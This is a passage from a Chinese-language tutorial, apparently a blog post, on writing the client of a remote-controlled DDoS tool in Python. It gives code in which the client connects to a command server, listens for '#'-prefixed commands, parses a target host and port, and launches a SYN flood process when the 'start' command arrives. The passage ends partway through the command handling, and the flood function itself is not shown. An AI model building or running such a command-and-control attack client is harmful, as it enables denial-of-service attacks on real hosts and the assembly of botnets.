 ### 2. Client端

我们将在Client端实现对主机的`SYN泛洪攻击`，并在脚本启动后主动连接Server端，等待Server端发送命令。

还是先看主函数了解一下整体思路，在主函数中我们先创建`ArgumentParser()`对象，并将需要解析的命令参数添加好。

```
def main():
    p = argparse.ArgumentParser()
    p.add_argument(&#39;-H&#39;, dest=&#39;host&#39;, type=str)
    p.add_argument(&#39;-p&#39;, dest=&#39;port&#39;, type=int)
    p.add_argument(&#39;-c&#39;, dest=&#39;cmd&#39;, type=str)

```
现在可以创建socket，连接服务器了。这里为了测试我们连接到本地地址的58868端口吧！之后我们就可以等待服务器发送命令了。
```
    try:
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((&#39;127.0.0.1&#39;,58868))
        print(&#39;To connected server was success!&#39;)
        print(&#34;=&#34; * 40)
        cmdHandle(s,p)
    except:
        print(&#39;The network connected failed!&#39;)
        print(&#39;Please restart the script!&#39;)
        sys.exit(0)
```
我们将接收命令和处理命令定义在了一个单独的函数中。在这里我们用到了一个全局变量，用于判断是否有进程正在发起SYN泛洪攻击。之后就开始循环接收命令了，接收之后到的数据是`byte`型，我们需要对其进行解码，解码之后才是字符串。如果接收到的数据长度为0，就跳过后续的内容，重新接收数据。
```
#处理命令
def cmdHandle(sock,parser):
    global curProcess
    while True:
        #接收命令
        data = sock.recv(1024).decode(&#39;utf-8&#39;)
        if len(data) == 0:
            print(&#39;The data is empty&#39;)
            continue
            
​````
如果数据的长度不为0，就判断是否具有命令基本格式的特征(`#`)，满足基本条件就需要用我们的`ArgumentParser`对象来解析命令了。
​````
        if data[0] == &#39;#&#39;:
            try:
                #解析命令
                options = parser.parse_args(data[1:].split())
                m_host = options.host
                m_port = options.port
                m_cmd = options.cmd
​````
命令参数解析出来后，我么就要判断到底是`start`命令还是`stop`命令了，如果是`start`命令，我们首先判断当前是否有进程在运行，如果有进程判断进程是否存活。如果当前有进程正在发起`SYN泛洪攻击`，我们就先结束这个进程，并清空屏幕。然后我们就直接启动一个进程，发起`SYN泛洪攻击`。

​````
                #DDoS启动命令
                if m_cmd.lower() == &#39;start&#39;:
                    if curProcess != None and curProcess.is_alive():
                        #结束进程
                        curProcess.terminate()
                        curProcess = None
                        os.system(&#39;clear&#39;)
                    print(&#39;The synFlood is start&#39;)
                    p = Process(target=synFlood,args=(m_host,m_port))
                    p.start()
```